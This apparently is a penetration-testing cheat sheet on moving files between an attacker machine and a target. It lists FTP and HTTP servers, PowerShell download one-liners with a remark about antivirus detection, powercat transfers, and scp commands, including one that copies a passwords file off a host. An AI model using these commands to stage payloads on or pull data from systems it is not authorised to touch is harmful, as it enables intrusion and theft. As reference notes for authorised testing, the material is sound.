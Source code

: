 ```yaml
---
title: Transferring Files
updated: 2020-11-09 16:04:34Z
created: 2020-10-20 01:15:59Z
---
```


# Services to Host Files on your System: 

General Options: 

FTP:

Install pyftpdlib
- pip3 install pyftpdlib

Pure-ftpd
- sudo apt install pure-ftpd
- service pure-ftpd start

Run (-w flag allows anonymous write access)
- Python3 -m pyftpdlib -p 21 -w

Web: 

- Python3 -m http.server 443
- service apache2 start

Powershell: 

Raw (Will get flagged by AV/AMSI): 

- powershell -c (New-Object Net.WebClient).DownloadFile('http://172.21.0.0:port/file', 'output-file'
- powershell -c Invoke-WebRequest -Uri "http://172.21.0.0" -OutFile "C:\path\file"


Use Powercat: 

Send File:
    powercat -c 10.1.1.1 -p 443 -i C:\inputfile
Recieve File:
    powercat -l -p 8000 -of C:\inputfile

Linux: 

scp: 

- scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2

scp through ssh: 

- scp -P 2322 passwords.txt remote_username@172.21.0.2:/remote/directory

scp remote file to local system: 

- scp remote_username@172.21.0.2:/remote/file.txt /local/directory


# Services to allow you to upload files to your system from the target: 

- SimpleHTTPServer Upload: https://gist.github.com/touilleMan/eb02ea40b93e52604938
    